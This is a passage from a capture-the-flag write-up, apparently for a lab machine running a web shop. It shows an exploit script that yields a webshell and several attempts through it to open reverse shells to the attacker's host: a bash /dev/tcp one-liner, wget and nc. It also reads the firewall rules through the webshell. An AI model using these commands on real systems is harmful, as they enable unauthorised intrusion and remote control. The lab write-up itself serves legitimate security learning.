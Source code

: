 I used `c` because the exploit POC uses `c` in it's webshell. When I run
this, it works:



    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php?c=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



#### No Reverse Shell

I wasn't able to get a full shell from this. It seems that perhaps the
firewall is not allowing traffic out? All of these either hung or
returned instantly:



    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=bash -c 'bash -i >& /dev/tcp/10.10.14.4/443 0>&1'"
    ^C
    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=wget http://10.10.14.4:443"
    ^C
    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=nc 10.10.14.4 443"
    ^C



I can pull the `iptables` rules:



    root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=find /etc/iptables -type f'
    /etc/iptables/rules.v4
    root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=cat /etc/iptables/rules.v4'
    # Generated by iptables-save v1.6.1 on Mon May 11 02:27:29 2020
    *filter
    :INPUT DROP [6:1032]
    :FORWARD DROP [0:0]
    :OUTPUT DROP [5:394]
    -A INPUT -i lo -j ACCEPT
    -A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
    -A INPUT -p tcp -m tcp --dport 22 -m tcp -j ACCEPT
    -A INPUT -p tcp -m tcp --dport 80 -m tcp -j ACCEPT
    -A INPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
    -A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
    -A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
    -A OUTPUT -p tcp -m tcp --sport 22 -m tcp -j ACCEPT
    -A OUTPUT -p tcp -m tcp --sport 80 -m tcp -j ACCEPT
    COMMIT
    # Completed on Mon May 11 02:27:29 2020
